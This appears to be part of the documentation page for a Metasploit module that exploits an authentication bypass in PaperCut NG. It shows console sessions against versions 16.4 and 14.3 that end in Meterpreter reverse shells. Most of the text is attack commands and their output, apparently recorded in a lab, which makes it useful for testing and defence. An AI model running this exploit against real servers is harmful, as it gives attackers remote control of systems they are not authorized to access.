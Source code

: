```
[*] Using URL: http://10.0.4.101:8080/o30YxAzAA69ISJ8
[*] Server started.
[*] Sending payload for requested uri: /o30YxAzAA69ISJ8.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:40328) at 2023-05-11 02:29:15 +0000
[*] Server stopped.

meterpreter >
```

### Tested on Linux x64 with PaperCut NG Version 16.4.39159
```
msf6 > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=e79i55m6n77ex4p6ee3fu8u9
[+] The target is vulnerable.
[*] Using URL: http://10.0.4.101:8080/GuHN8K
[*] Server started.
[*] Sending payload for requested uri: /GuHN8K.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:58324) at 2023-05-11 03:22:13 +0000
[*] Server stopped.

meterpreter >
```
Note: The 'Form0' parameter for version 16 and lower does not take an additional '$Submit$1' value.

### Tested on Linux x64 with PaperCut NG Version 14.3.30457
```
msf6 > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=b9g3gepapev0
[+] The target is vulnerable.
[*] Using URL: http://10.0.4.101:8080/kBXJNp
[*] Server started.
[*] Sending payload for requested uri: /kBXJNp.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:32852) at 2023-05-11 03:56:24 +0000
[*] Server stopped.

meterpreter >
```